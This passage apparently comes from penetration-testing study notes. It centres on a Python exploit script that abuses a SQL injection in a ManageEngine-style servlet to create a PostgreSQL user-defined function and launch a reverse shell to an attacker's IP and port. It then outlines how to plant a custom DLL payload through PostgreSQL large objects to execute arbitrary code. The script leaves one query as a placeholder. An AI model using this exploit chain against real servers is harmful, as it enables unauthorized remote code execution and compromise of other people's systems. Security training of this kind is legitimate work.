 ```C
}
```
#### Send the Payload
```Python
import requests, sys
requests.packages.urllib3.disable_warnings()

def log(msg):
   print msg

def make_request(url, sql):
   log("[*] Executing query: %s" % sql[0:80])
   r = requests.get( url % sql, verify=False)
   return r

def create_udf_func(url):
   log("[+] Creating function...")
   sql = "--------FIX ME--------"
   make_request(url, sql)

def trigger_udf(url, ip, port):
   log("[+] Launching reverse shell...")
   sql = "select rev_shell($$%s$$, %d)" % (ip, int(port))
   make_request(url, sql)
   
if __name__ == '__main__':
   try:
       server = sys.argv[1].strip()
       attacker = sys.argv[2].strip()
       port = sys.argv[3].strip()
   except IndexError:
       print "[-] Usage: %s serverIP:port attackerIP port" % sys.argv[0]
       sys.exit()
       
   sqli_url  = "https://"+server+"/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;%s;--" 
   create_udf_func(sqli_url)
   trigger_udf(sqli_url, attacker, port)
```
Need a SMB Share to download
![[5e462ec2003ec7b2d69439e0f95700ca-Picture29.png]]
### More Shells
#### PostgreSQL Large Objects
* Large object which is used for storing data such as a PDF document. 
* The files can be copied back to the file system as they were. 

1. Create a large object that will hold our binary payload (our custom DLL file we created in the previous section)
2. Export that large object to the remote server file system
3. Create a UDF that will use the exported DLL as source
4. Trigger the UDF and execute arbitrary code
